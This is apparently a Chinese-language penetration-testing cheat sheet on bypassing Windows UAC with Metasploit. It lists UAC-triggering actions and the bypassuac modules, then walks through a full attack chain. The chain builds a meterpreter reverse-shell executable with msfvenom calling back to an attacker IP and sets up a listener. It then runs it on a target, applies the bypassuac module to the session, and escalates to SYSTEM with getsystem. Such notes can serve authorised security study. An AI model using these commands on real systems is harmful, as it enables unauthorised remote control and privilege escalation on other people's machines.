 ```cmd
#涉及UAC授权的
1.配置windows update
2.增加或删除用户账户
3.改变用户的账户类型
4.改变UAC设置
5.安装AcriveX
6.安装或移除程序
7.安装设备驱动程序
8.设置家长控制
9.将文件移动或复制到Program Files或Windows目录
10.查看安全套用户文件夹
```

#### msf的bypassuac模块

```cmd
exploit/windows/local/bypassuac //进程注入,利用受信任的发布者证书绕过(生成关闭uac的shell)
exploit/windows/local/bypassuac_injection //内存注入
exploit/windows/local/bypassuac_eventvwr	//劫持注册表中的特殊键,在启动windows fodhelper.exe应用程序时调用自定义命令绕过
```

#### 示例1

```cmd
# 进入msf
msfconsile
# 选择反弹shell模块
use payload/windows/meterpreter/reverse_tcp
# 设置监听主机和端口
set LHOST <你的IP>
set LPORT <监听端口>
# 生成可执行文件
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.71.50 LPORT=4444 -f exe -o shell.exe
#如果不在桌面上，可以用指令查找位置
find / -name shell.exe 2>/dev/null

# 重新设置监听
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.71.50
set LPORT 4444
exploit
# 将生成的exe上传到目标机器
# 执行exe后,反弹成功shell
getuid
backgroud #显示保存的session1

# 使用bypass模块
use exploit/windows/local/bypassuac
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.71.50		#设置攻击机ip
set session 1				#指向刚才后台运行的session
exploit						#执行该次操作
# 这里生成了新的session2
getuid #显示为普通权限
#提权
getsystem
```
